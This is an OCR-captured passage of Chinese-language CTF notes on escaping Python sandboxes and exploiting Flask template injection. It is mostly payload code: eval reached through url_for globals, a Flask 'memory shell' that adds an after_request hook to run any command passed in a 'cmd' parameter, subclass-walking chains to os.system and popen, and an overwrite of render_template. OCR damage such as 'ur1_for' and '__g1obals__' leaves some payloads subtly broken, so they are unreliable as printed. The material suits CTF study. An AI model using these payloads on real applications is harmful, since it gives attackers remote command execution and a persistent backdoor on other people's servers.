 #### 5.利用沙箱中函数的\_\_globals\_\_属性获取\_\_builtins\_\_

```python
ur1_for.__globals__['__builtins__']['eval']
```

```python
get_flashed_messages,lipsum.......
```

```python
#cookie
ur1_for.__globals__['__builtins__']['eval']("app.after_request_funcs.setdefault(None,[])append(lambda resp:CmdResp if request.args.get('cmd') and exec(\"global CmdResp;CmdResp=__import__(\'flask\').make_response(__import __(\'os\').popen(request.args.get(\'cmd\'))read())\")==None else resp)",{'request':ur1_for.__globals__['request'],'app':ur1_for.__g1obals__['sys'].modules['__main__'].__dict__['app']})
```

#### 6.利用继承关系逃逸

```python
 for i in ''.__class__.__base__.__subclasses__():
     c+=1
     if 'wrapper' not in str(i.__init__):
         print(c)
        #找非wrapper的init函数
```

```python
''.__class__.__base__.__subclasses__()[104].__init__.__globals__['__builtins__']['eval']("''.__class__.__base__.__subclasses__()[104].__init__.__globals__['__builtins__']['__import__']('os').popen('dir').read()")
```

**os._wrap_close**在os.py里定义，他的init函数globals属性获取到的全局变量与函数包括在os.py里定义的，有system,popen

```python
[ x.__init__.__globals__ for x in ''.__class__.__base__.__subclasses__() if x.__name__=="_wrap_close"][0]["system"]("")
```

**warnings.catch_warnings**类在在内部定义了_module=sys.modules['warnings']，然后warnings模块包含有__builtins__(很多模块都包含builtins吧)

```python
#zero6six
[x for x in (1).__class__.__base__.__subclasses__() if x.__name__=='catch_warnings'][0]()._module.__builtins__['__import__']("os").system("cat ../flag templates/rce.html")
```

#### 7.复写函数

```python
global render_template;render_template=lambda x:__import__('os').popen('').read()
```

### 题目：python沙箱2
